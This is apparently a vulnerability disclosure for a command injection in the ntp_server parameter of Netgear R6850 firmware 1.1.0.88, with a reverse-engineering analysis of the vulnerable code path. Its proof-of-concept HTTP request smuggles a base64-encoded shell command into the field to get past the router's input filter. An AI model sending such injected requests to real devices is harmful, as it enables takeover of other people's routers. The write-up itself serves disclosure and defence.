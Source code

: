# Netgear-R6850 V1.1.0.88 Command Injection(ntp_server)

![image-20240319114656029](D:\typora 图片\image-20240319114656029.png)

## Overview

```
* Type: Command Injection
* Supplier: Netgear (https://www.netgear.com/)
* Product: R6850 — AC2000 Smart WiFi Router
* Affect version: (lastest) 1.1.0.88
* Firmware download:https://www.downloads.netgear.com/files/GDC/R6850/R6850_V1.1.0.88.zip
```

## Vulnerability Description

When deal with  `ntp_setting` request,`ntpserver` parameter is vulnerable to OS command injection.

### POC

The effect of executing the "touch home/cmdi1.txt" command

![image-20240319145515451](D:\typora 图片\image-20240319145515451.png)

Due to filtering issues, base64 ciphertext injection is used

![image-20240319145649975](D:\typora 图片\image-20240319145649975.png)

If encryption is not performed, a filtering rule will be triggered, resulting in 403 Forbidden instead

![image-20240319145749059](D:\typora 图片\image-20240319145749059.png)

```http
POST /setup.cgi?id=d7dd745acc849118 HTTP/1.1
Host: 192.168.1.1
Content-Length: 197
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/FW_ntp.htm&todo=cfg_init
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: SESSION_ID_VIGOR=7:08024DADCBD0CCB4D4B176EEB674981C; SessionID_R3=rApOE9t2JImnfAH6ea1G8fW1n3SEVW0TjokH470PM0LqC0taSt3lqkuAmfCGaFlkVCPPhkpQyi6KsywsYRwkxZrIPXYO0AMv9b0ds5t7S4UiM9UFKrIvFNoRFcX4hdcs; XSRF_TOKEN=152587063; sessionid=sid1038xxx450163xxx1031695426x
Connection: close

use_ntpserver=other&ntp_server=%26dG91Y2ggaG9tZS9jb21kaTEudHh0%26&time_zone=%2B8a&h_time_zone=%2B8a&h_adjust=disable&h_use_ntpserver=other&todo=save&this_file=FW_ntp.htm&next_file=ntp_wait.htm&SID=
```

## Analysis

In the main function of `setup. cgi`, all requests with `setup. cgi` in the URL will be processed by the setup_main function

![image-20240319134651718](D:\typora 图片\image-20240319134651718.png)

It should be noted that a filter (`FindForbidValue`) was applied at the beginning of the function, filtering out some characters and specific functions. Here, we need to bypass the filtering rules and use base64 encryption for command injection

![image-20240319134758233](D:\typora 图片\image-20240319134758233.png)

Through packet capture, it can be seen that todo=save, this_file=FW_ntp.htm, so analyze the save function.

In line 816, it can be seen that when this file=FW_ntp.htm, it will go to COMMAND (v54), thus calling `rc` to execute `ntp restart`

![image-20240319151038361](D:\typora 图片\image-20240319151038361.png)

![image-20240319151131819](D:\typora 图片\image-20240319151131819.png)

In the `sub_68EFC` function, the value of `ntp_sever` will be set, which can be controlled by the user by modifying the post package body

![image-20240319150321010](D:\typora 图片\image-20240319150321010.png)

`rc `will call `rc_apps` and find the sub_44DAE8 function in `rc_apps`, which executes `ntp restart`

![image-20240319151445874](D:\typora 图片\image-20240319151445874.png)

In `ntp restart`, `start_ntp` will be called, which will cause the `ntp_server` parameter command to execute

![image-20240319151625444](D:\typora 图片\image-20240319151625444.png)